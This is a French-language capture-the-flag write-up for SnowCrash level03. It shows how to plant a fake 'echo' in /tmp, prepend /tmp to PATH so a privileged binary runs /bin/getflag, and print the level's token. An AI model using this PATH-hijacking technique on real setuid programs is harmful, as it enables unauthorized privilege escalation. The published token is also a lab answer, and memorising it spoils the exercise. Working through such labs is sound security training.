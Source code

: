 Le dossier contient un binaire : level03
```bash
scp -P 4242 level03@localhost:/home/user/level03/level03 .
```

En décompilant ce binaire avec l'outil Ghidra on aperçoit la fonction execve qui éxécute la commande **echo**.

![Ghidra level03](image.png)

On créer un binaire dans lequel on écrit la commande getflag :
```bash
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
```

On modifie la variable d'environnement PATH pour que celle-ci utilise notre binaire **echo** plûtot que celui dans /bin
```bash
export PATH=/tmp:$PATH
```

On éxécute le binare pour obtenir le password du level04: 
```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```